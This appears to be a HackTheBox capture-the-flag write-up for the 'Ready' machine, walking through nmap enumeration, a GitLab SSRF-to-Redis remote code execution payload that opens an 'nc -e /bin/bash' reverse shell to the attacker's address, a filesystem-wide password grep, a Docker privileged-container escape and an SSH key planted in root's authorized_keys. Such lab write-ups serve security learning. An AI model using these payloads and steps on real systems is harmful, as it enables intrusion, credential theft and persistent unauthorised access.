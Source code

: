 ```yaml
---
layout: post
title: HackTheBox Write-up &mdash; Ready
---
```


This machine has IP 10.10.10.220.

Let's use `nmap` to enumerate the ports available to us:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 19:36 NZST
Nmap scan report for 10.10.10.220
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.48 seconds
```

Immediately I see that there is another gitlab server running on port `5080` (as in Laboratory)...but I am still working on that machine too (today I started a bunch of different machines).

I go to `http://ready:5080/` and it asks me to sign in.  I try to make an account but I get a `422` error. 

I found [this](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) exploit after looking up GitLab exploits on Google.  The latter page shows a very cool video on how (for a particular version of GitLab), SSRF (server-side request forgery) can turn into RCE (remote code execution) via Redis.  Apparently it uses a special IPV6 to embed an IPV4 here: `0:0:0:0:0:ffff:127.01.1`

Trying again to make an account, I succeed.  I am now signed in, and I make a new project.  I import project by URL, and see if the following URL works (using the aforementioned IPV6):
```
git://[0:0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf.git
```

Before hitting "create", let's open up Burp Suite and intercept this.  Now, from [here](https://github.com/jas502n/gitlab-SSRF-redis-RCE#burpsuite-request) we find a Burp Suite exploit that involves changing the `import_url` body parameter to 
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/

 multi

 sadd resque:gitlab:queues system_hook_push

 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.14.239 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

 exec

 exec

/ssrf.git
```

Before sending it, start up netcat:
```bash
nc -nvlp 1234
```

Now send it to repeater and go, and we find that our netcat window has a reverse shell.  Let's do the usual steps of making this shell more stable:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm-colors
```

```bash
$ nc -nvlp 1234
Connection from 10.10.10.220:33452
python3 -c "import pty;pty.spawn('/bin/bash')"
git@gitlab:~/gitlab-rails/working$ export TERM=xterm-colors
export TERM=xterm-colors
git@gitlab:~/gitlab-rails/working$
```

Great.  We are glad this works because we didn't actually have any confirmation that this version is before the 11.4.8 patch.  Let's see where we are in the machine:

```bash
git@gitlab:~/gitlab-rails/working$ pwd
pwd
/var/opt/gitlab/gitlab-rails/working
git@gitlab:~/gitlab-rails/working$ echo $HOME
echo $HOME
/var/opt/gitlab
git@gitlab:~/gitlab-rails/working$ ls /home
ls /home
dude
git@gitlab:~/gitlab-rails/working$ ls /home/dude
ls /home/dude
user.txt
git@gitlab:~/gitlab-rails/working$ cat /home/dude/user.txt
cat /home/dude/user.txt
e1e3************************7682
git@gitlab:~/gitlab-rails/working$ whoami
whoami
git
```

So, despite being the user `git`, we have collected `dude`'s user flag.

We look for a plain-text passowrd:
```bash
find / -type f | while IFS= read -r file; do grep -i password "$file" && echo -e "\u001b[1;38m$file\u001b[0;38m\n\n"; done
```

After a bit of digging, we find a folder `/opt/backup` that contains a plain-text password: `grep -i password /opt/backup/gitlab.rb | grep smtp | awk -F'=' '{print $2}' | sed 's/[[:space:]]*"//g'`.

We can now run `su root` using the aforementioned `smtp_password`, and now we are logged in as root!

But we ls the `/root` directory and don't find anything.  If you will recall, we saw, in the `/opt/backup` directory, a `docker-compose.yml` file.  I think we are inside a docker container, not the actual computer.

To get out of a docket container, I found [this](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) exploit:
```bash
cd /tmp; mkdir test;  mount /dev/sda2 /tmp/test; cat /tmp/test/root/root.txt
...
b7f9************************c2b3
```

But we haven't actually become root yet (though we are functionally root and have root access to everything).  To do this, we need to create a new `ssh` key on *your* machine, using `ssh-keygen`.  Now copy this (`cat ~/.ssh/id_rsa.pub` | pbcopy`) and, on the host machine, run
```bash
# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfa3l1lcRiEwk3/HoXukpmecOH0O8HoAknkB2ux6mwN8L2h88dQdbsfeLBIBxYdJAk8BUxZpuKxbz/sAaY2OgT2Pk4e+z3ah/ldI7NJmFyJBXdeFCBk21p05rpA36ODmidIGVO+PLwLZH1l7DHWvJTkuuRl5HVxID2cE6oJZyVmzKMaTKbqjwGdIpgt6VACCOUmG2gE71d3LFttcKFVo3BB5n9uJdXJfIXGWmyvcgEF8IriZRpZMl1qHGDgPH56uAySZVYwtCStWl8dXTZKX4Uo2VgzGwH36SZ2Oyyw0I+oPfo2IE3uTFrKgujdzvnVzYRI7FiYgFMGhAHIEhkGj5R jakeireland@jake-mbp2017-6917.local' >> /tmp/test/root/.ssh/authorized_keys
```

Now run (from *your* machine)
```bash
ssh -i id_rsa root@10.10.10.220
```

Now you are in!
```bash
root@ready:~# cat /root/root.txt
b7f9************************c2b3
```


